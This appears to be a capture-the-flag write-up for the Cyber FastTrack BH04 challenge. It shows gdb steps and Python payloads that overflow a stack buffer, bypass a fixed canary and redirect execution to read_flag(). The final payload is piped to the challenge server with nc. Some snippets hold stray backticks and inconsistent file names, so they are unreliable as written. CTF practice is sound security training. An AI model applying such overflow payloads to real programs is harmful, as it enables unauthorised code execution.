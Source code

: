 # Cyber FastTrack Spring 2020- BH04 Solution
In this challenge, we use buffer overflow to display the flag.\
BH04_1.PNG\
![image info](BH04_1.PNG)
* This is the challenge for BH04. Take a look at the [BM02 Solution](https://github.com/koc777/CyberFastTrack_Spring2020/tree/main/BM02) for more info.

IDA-exploitable().PNG\
![image info](IDA-exploitable().PNG)
* We use IDA software to display the structure of this program. There are the exploitable(char const*, char const*, char const*) function and the read_flag(void) function. In this challenge, the exploitable function takes all the inputs. Also, there are some local variales that stored in the explotable() function. For a better understanding of the program, we need a gdb debugger.
* If we look through the program, we know that we must enter `add_candidate` in order to add employee and use the exploitable() function.

BH04_2.PNG\
![image info](BH04_2.PNG)
* In the terminal, we type `gdb <name of your program>` to start the debugger.
* Type `run` to run the program in the debugger.
* Hold down the Ctrl key and press c to stop the program
* Enter `disas exploitable(char const*, char const*, char const*)

BH04_3.PNG\
![image info](BH04_3.PNG)
* Enter `c` to continue without paging
* we use break *address to set a break point. In this case, we use `0x565563f7`.
* Type `break *0x565563f7`
* Type `run`
* Type `add_candidate`
* Enter one information for each of the First Name, Last Name, and Job Title.
  * In this case, I entered `First` as the First Name, `Last` as the Last Name, and `Title` as the Job Title.
* Then, you will encounter an breakpoint at `Breakpoint 1, 0x565563f7 in exploitable(char const*, char const*, char const*) ()`

BH04_4.PNG\
![image info](BH04_4.PNG)
* Enter info frame to get the return address that stored at eip. In this case, the return address is `0x56557579`. 

BH04_5.PNG\
![image info](BH04_5.PNG)
* Enter `x/150x $sp` to display the current and the next 149 stack pointer.
* Look at the stack canary value `0xbeef0000` and the return address `0x56557579`.

BH04_6.PNG\
![image info](BH04_6.PNG)
* Let's try to put what we have in BM02.py into BH04.py
* Create a text file, enters the following and save it as a python file.
```python
print("add_candidate")
print('A'*120)
```
* Hold down the Ctrl key and press c to stop the program
* Type `run < <(python bm02.py)` to re-run the program in the debugger.
* Enter `x/150x $sp` to display the current and the next 149 stack pointers
* Look at the stack canary value `0xbeef0000` and the return address `0x56557579`. They are both the same as above.

BH04_7.PNG\
![image info](BH04_7.PNG)
* Notice that: First Name, Last Name, and Job Title, each of them takes 120 bytes of buffer. 
* Edit the BH04.py file to try something different
```python
print("add_candidate")
print('A'*120)
print('B'*240)
print('C'*360)
```
* Re-run the program and display the current and the next 149 stack pointers
* Notice that: we can overwrite First Name buffer and Last Name buffer to 'C' or 43

BH04_8.PNG\
![image info](BH04_8.PNG)
* Edit the BH04.py file to try something different
```python
print("add_candidate")
print('A'*120 + `\x00\x00\xef\xbe')
print('B'*240)
print('C'*360)
```
* Re-run the program and display the current and the next 149 stack pointers
* Nothing changes

BH04_9.PNG\
* Edit the BH04.py file to try something different
```python
print("add_candidate")
print('A'*120 + `\x00\x00\xef\xbe' + 'A'*12 + '\x5d\x61\x55\x56')
print('B'*240)
print('C'*360)
```
* Re-run the program and display the current and the next 149 stack pointers
* Nothing changes because `\x00` or 0x00 means it has reached the end of the string because C strings are null-terminated.
 * This means ` 'A'*12 + '\x5d\x61\x55\x56' \` will not get executed.

BH04_10.PNG\
![image info](BH04_10.PNG)
* Edit the BH04.py file to try something different
```python
print("add_candidate")
print('A'*120 + `\xef\xbe' + 'A'*12 + '\x5d\x61\x55\x56')
print('B'*240)
print('C'*360)
```
* Re-run the program and display the current and the next 149 stack pointers
* Nothing changes because `\x00` or 0x00 means it has reached the end of the string because C strings are null-terminated.

BH04_11.PNG\
![image info](BH04_11.PNG)
* Use `si` to execute one instruction at a time to see if the program enters the `read_flag(void)` function.
* We see that the program enters the `read_flag(void)` function.

BH04_12.PNG\
![image info](BH04_12.PNG)
* Use `si` to execute one instruction at a time and we will see the flag eventually.

BH04_13.PNG\
![image info](BH04_13.PNG)
* In order to get the server to response to our request, we need to print out the last name and the job title. So we edit the python file as below:
```python
print("add_candidate")
print('A'*120 + '\xef\xbe\xad\xde' + 'A'*12 + '\x5d\x61\x55\x56')
print("Last")
print("Title")
```	
* Send the bm02.py to the server and it would prints out the flag.
  * `python bm02.py | nc bm02.allyourbases.co 9003`





	
